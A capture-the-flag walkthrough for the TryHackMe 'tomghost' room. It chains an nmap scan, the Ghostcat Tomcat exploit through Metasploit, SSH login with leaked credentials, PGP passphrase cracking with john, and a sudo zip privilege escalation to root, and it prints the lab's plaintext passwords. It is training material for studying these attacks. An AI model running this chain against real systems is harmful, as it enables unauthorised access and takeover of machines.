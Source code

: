 # [tomghost](https://tryhackme.com/room/tomghost)

## Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

# Flags

### Compromise this machine and obtain user.txt

1. Scan the target to identify running services

```bash
nmap -sV IP
```

![SCREEN01](https://github.com/user-attachments/assets/fdb896d0-d00f-48c8-91a9-93fc2c53dc22)

2. Exploit Ghostcat Vulnerability [CVE-2020-1938](https://www.exploit-db.com/exploits/49039)
   - The credantials are: `skyfuck:8730281lkjlkjdqlksalks`

```bash
msfconsole
search ghostcat
use auxiliary/admin/http/tomcat_ghostcat
show options
set RHOSTS TARGET_IP
run
```

![SCREEN02](https://github.com/user-attachments/assets/5dd5363e-c3f2-475d-8cb0-dd104a727cb7)

3. Use the discovered credentials to access the system via SSH. Once connected, explore the system to locate the user flag

```bash
ssh skyfuck@IP
# password: 8730281lkjlkjdqlksalks
cat /home/merlin/user.txt
```

![SCREEN03](https://github.com/user-attachments/assets/400b6392-29ec-4dcf-8b1f-248407cac3de)

---

### Escalate privileges and obtain root.txt

1. Download files from `/home/skyfuck` to local machine for analysis

```bash
scp skyfuck@IP:/home/skyfuck/credential.pgp .
scp skyfuck@IP:/home/skyfuck/tryhackme.asc .
```

2. The `.asc` file is a PGP private key that's likely password-protected. We need to crack this password to decrypt the credential file.
   - Credentials are: `tryhackme:alexandru`

```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/root/Tools/wordlists/rockyou.txt
```

![SCREEN04](https://github.com/user-attachments/assets/db690f5c-14ee-4748-8450-ec35cb408e37)

3. Import the PGP key and decrypt the credential file
   - Credentials are: `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

```bash
gpg --import tryhackme.asc
# password: alexandru
gpg --decrypt credential.pgp
# password: alexandru
```

![SCREEN05](https://github.com/user-attachments/assets/670e851a-510b-45ae-b096-b26a5c8deecc)

4. Switch to the merlin user using the discovered credentials

```bash
su merlin
#Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

5. Check what sudo privileges the merlin user has

```bash
sudo -l
```

![SCREEN06](https://github.com/user-attachments/assets/8ea2e5a9-9175-4add-9d2c-1ddf8ae4e72b)

6. According to [GTFOBins](https://gtfobins.github.io/gtfobins/zip/), the zip utility can be exploited for privilege escalation when run with sudo privileges. Once executed, you should have a root shell, and access to the root flag

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
cat /root/root.txt
```

![SCREEN07](https://github.com/user-attachments/assets/7bd93eb8-2cc8-4ec3-8bcf-5dcc79eee2b4)
